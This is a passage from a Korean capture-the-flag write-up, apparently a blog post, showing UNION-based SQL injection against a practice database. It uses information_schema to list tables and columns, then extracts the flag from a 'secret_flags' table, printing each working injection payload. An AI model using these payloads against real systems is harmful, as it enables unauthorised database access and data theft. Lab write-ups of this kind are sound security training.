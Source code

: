 ![union select](/assets/screenshots/union-sqli/spec2_database.png)

> 데이터베이스 이름 **spec2**

이제 `information_schema.tables`를 이용해 데이터베이스 spec2 내의 테이블 목록을 확인해보았다.

```html
13+union+select+(select+table_name+from+information_schema.tables+where+table_schema='spec2'+limit+2,1),2,3,4,5,6,7,8--+
```

쿼리 실행 결과, 테이블 이름으로 **secret_flags**가 출력되었고, 이후 이 테이블을 대상으로 컬럼 및 데이터를 조회할 수 있었다.

이후 `information_schema.columns`를 사용하여 `secret_flags` 테이블의 컬럼명을 확인하기 위해 다음과 같은 쿼리를 입력하였다.

```html
13+union+select+(select+column_name+from+information_schema.columns+where+table_schema='spec2'+and+table_name='secret_flags'+limit+?,1),2,3,4,5,6,7,8--+
```

쿼리 실행 결과, 아까랑 같은 **id, flag_name, flag_value** 라는 컬럼명을 확인할 수 있었다.

이후 `secret_flags` 테이블에서 실제 플래그 값을 추출하기 위해, `UNION SELECT`와 서브쿼리를 조합한 다음의 SQL 인젝션을 시도하였다.

```html
13+union+select+(select+flag_name+from+secret_flags+limit+5,1),2,3,4,5,6,7,8--+

13+union+select+(select+flag_value+from+secret_flags+limit+5,1),2,3,4,5,6,7,8--+
```

이 결과를 통해 `flag_name` 의 5번째 행이 **real_flag** 임을 확인할 수 있었고, 나머지 행들은 모두 `fake_flag`로 설정되어 있었다.
